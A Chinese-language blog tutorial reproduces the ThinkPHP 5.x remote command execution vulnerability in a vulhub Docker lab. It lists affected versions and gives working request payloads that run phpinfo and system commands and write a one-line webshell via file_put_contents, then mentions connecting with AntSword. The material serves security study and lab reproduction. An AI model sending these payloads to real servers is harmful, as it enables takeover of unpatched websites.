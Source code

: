 ```yaml
---
title: ThinkPHP 5.x 远程命令执行漏洞分析与复现
date: 2024-3-12 14:45:46
tags:
- 教程
categories:
- 漏洞复现
---
```




### 一、ThinkPHP介绍

轻量级框架，内部OOP和面向过程代码都存在，是国人自己开发的框架。 ThinkPHP是一个快速、兼容而且简单的轻量级国产PHP开发框架，诞生于2006年初，原名FCS，2007年元旦正式更名为ThinkPHP，遵循Apache2开源协议发布，从Struts结构移植过来并做了改进和完善，同时也借鉴了国外很多优秀的框架和模式

### 二、漏洞描述

Thinkphp5.0版本中没有对路由中的控制器进行严格过滤，导致在没有开启强制路由的情况下可以执行系统命令。

### 三、漏洞影响版本

ThinkPHP 5.0.x < 5.0.23

ThinkPHP 5.1.x < 5.1.31

### 四、漏洞复现

1、搭建环境

这里使用docker直接启动vulhub靶场



```
docker-compose up -d
```

目录：thinkphp/5-rce

[![img](https://img2022.cnblogs.com/blog/2723702/202207/2723702-20220715003445953-1286734845.png)](https://img2022.cnblogs.com/blog/2723702/202207/2723702-20220715003445953-1286734845.png)

2、访问页面



```
http://your-ip:8080
```

[![img](https://img2022.cnblogs.com/blog/2723702/202207/2723702-20220715003530053-453642526.png)](https://img2022.cnblogs.com/blog/2723702/202207/2723702-20220715003530053-453642526.png)

 3、代码执行



```
/index.php?s=index/\think\app/invokefunction&function=phpinfo&vars[0]=100

/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=pwd
```

获取phpinfo信息

[![img](https://img2022.cnblogs.com/blog/2723702/202207/2723702-20220715003645625-564520031.png)](https://img2022.cnblogs.com/blog/2723702/202207/2723702-20220715003645625-564520031.png)

 执行系统命令

[![img](https://img2022.cnblogs.com/blog/2723702/202207/2723702-20220715003659125-605547546.png)](https://img2022.cnblogs.com/blog/2723702/202207/2723702-20220715003659125-605547546.png)

 4、写入一句话



```
/index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=shell.php&vars[1][]=加你要写入的文件内容url编码
```

[![img](https://img2022.cnblogs.com/blog/2723702/202207/2723702-20220715003730619-1168207008.png)](https://img2022.cnblogs.com/blog/2723702/202207/2723702-20220715003730619-1168207008.png)

[![img](https://img2022.cnblogs.com/blog/2723702/202207/2723702-20220715003742768-1307230955.png)](https://img2022.cnblogs.com/blog/2723702/202207/2723702-20220715003742768-1307230955.png)

 蚁剑连接

[![img](https://img2022.cnblogs.com/blog/2723702/202207/2723702-20220715003810605-1765082326.png)](https://img2022.cnblogs.com/blog/2723702/202207/2723702-20220715003810605-1765082326.png)

 

### 五、修复建议

升级至最新版本